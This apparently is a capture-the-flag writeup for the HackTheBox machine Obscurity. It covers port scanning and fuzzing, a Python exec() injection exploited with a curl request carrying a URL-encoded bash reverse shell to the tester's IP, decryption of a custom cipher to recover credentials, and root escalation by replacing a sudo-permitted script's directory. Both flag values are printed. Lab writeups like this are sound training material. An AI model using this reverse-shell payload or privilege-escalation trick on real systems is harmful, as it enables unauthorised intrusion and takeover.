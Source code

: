 ```yaml
---
layout: post
title: HackTheBox Obscurity (10.10.10.168) Writeup
description: >
  Hackthebox Obscurity Writeup
image: /assets/img/obscurity.png
noindex: true
---
```


**NMAP:**
```
# Nmap 7.80 scan initiated Fri May  8 23:17:40 2020 as: nmap -sC -sV -T4 -p- -oN fullNmap.txt
10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.022s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 08 May 2020 23:20:23
|     Server: BadHTTPServer
|     Last-Modified: Fri, 08 May 2020 23:20:23
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!--
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  8 23:19:18 2020 -- 1 IP address (1 host up) scanned in 98.25 seconds
```
Looking at the webpage on port 8080 I see that it mentions a file `SuperSecureServer.py`. I use ffuf to fuzz for the file.
```
 ./ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

develop                 [Status: 200, Size: 5892, Words: 1806, Lines: 171]
```
Navigating to `http://10.10.10.168:8080/develop/SuperSecureServer.py` I find the python file. Towards the bottom of the file there are these two lines 
```
 info = "output = 'Document: {}'" # Keep the output for later debug
 exec(info.format(path)) # This is how you do string formatting, right?
 ```
 The exec function is being used which can be exploited to execute a reverse shell. By sending a GET request to something like `https://10.10.10.168/rev';os.system("bash -c \'bash -i >& /dev/tcp/10.10.14.36/9999 0>&1\'");'` I can get a reverse shell. The only thing I had to do first was URL encode the the shell portion.
 ```
 root@pc1:~# curl http://10.10.10.168:8080/test%27%3Bos.system%28%22bash%20-c%20%5C%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.36%2F9999%200%3E%261%5C%27%22%29%3B%27
 ```
 With that I now have a shell as `www-data`. the `user.txt` file is located in `/home/robert` but I dont have permission to read it just yet. There are some other files in robert's home directory though.
 ```
 www-data@obscure:/home/robert$ ls
BetterSSH  out.txt               SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
```
Looking at each, `SuperSecureCrypt.py` looks like an encryption/decryption script, `out.txt` is the encrypted output of `check.txt` and `passwordreminder.txt` is another encrypted file which most likely contains a some kind of password. The key that was used for encrypting `check.txt` can be found with the following command
```
python3 SuperSecureCrypt.py -k "$(cat check.txt)" -i out.txt -o /tmp/key.txt -d
 ```
 With that I get a key of `alexandrovich`. I use that key to decrypt the contents of `passwordreminder.txt` and get `SecThruObsFTW`. Now with the credentials `robert;SecThruObsFTW` I can log in as robert and read the `user.txt` flag.
 ```
 robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```
Typing `sudo -l` to see if I can execute anything with sudo permissions gives me one option
```
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
Lucky for me BetterSSH is located in roberts home directory. Even though the file is owned by root and I cant modify it, I can modify the directory because of the way linux permissions work even if the directory is owned by root. So my privilege escalation will work like this. First rename the BetterSSH directory to a new name. Then create a new BetterSSH directory with a new `BetterSSH.py` file that executes a bash shell. Since I can execute the command as root it will give me a root shell.
```
robert@obscure:~$ mv BetterSSH/ BetterSSH2
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ touch BetterSSH/BetterSSH.py
robert@obscure:~$ vim BetterSSH/BetterSSH.py
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
root@obscure:~# whoami
root
```
From here I can read the `root.txt` file.
```
root@obscure:/root# cat root.txt
512fd4429f33a113a44d5acde23609e3
```
